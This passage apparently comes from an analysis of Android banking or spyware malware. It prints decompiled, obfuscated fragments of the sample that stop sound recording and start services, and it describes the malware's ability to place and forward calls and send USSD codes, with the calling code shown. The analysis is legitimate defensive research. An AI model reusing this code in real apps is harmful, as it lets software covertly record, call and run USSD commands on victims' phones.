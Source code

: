 ```cs
                                                                                                                                                                                                                                                                  // name
                                                                                                                                                                                                                                                                  // -1
                                                                                                                                                                                                                                                                  // tick
                                        izyiyumk.this.startService(intent0);
                                        return;
                                    }

                                    izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                                    return;
                                }

                                izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                            }
                            catch(Exception unused_ex) {
                            }

                            return;
                        }
                        catch(Throwable unused_ex) {
                            return;
                        }

                        izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                      // SOUND

```


# Classic features

## Call and call forward

After granting all call permissions, the malware will have the ability to call or forward call. 

```cs
  try {
                Intent intent0 = new Intent("android.intent.action.CALL");
                intent0.addFlags(0x10000000);
                intent0.setData(Uri.parse("tel:" + Uri.encode(s26)));
                context1.startActivity(intent0);
                String s27 = "USSD: " + s26 + "[143523#]";
                i1.a("USSD", s27);
                i1.f(context1, i1.a.ab, s27);
                return;
            }
            catch(Exception unused_ex) {
            }

            try {
                i1.a("USSD", "Error: Start USSD");
                i1.a("USSD", "Error USSD[143523#]");
                i1.f(context1, i1.a.ab, "Error USSD[143523#]");
                return;
            label_1329:
                i2 = jwozx0.a;
```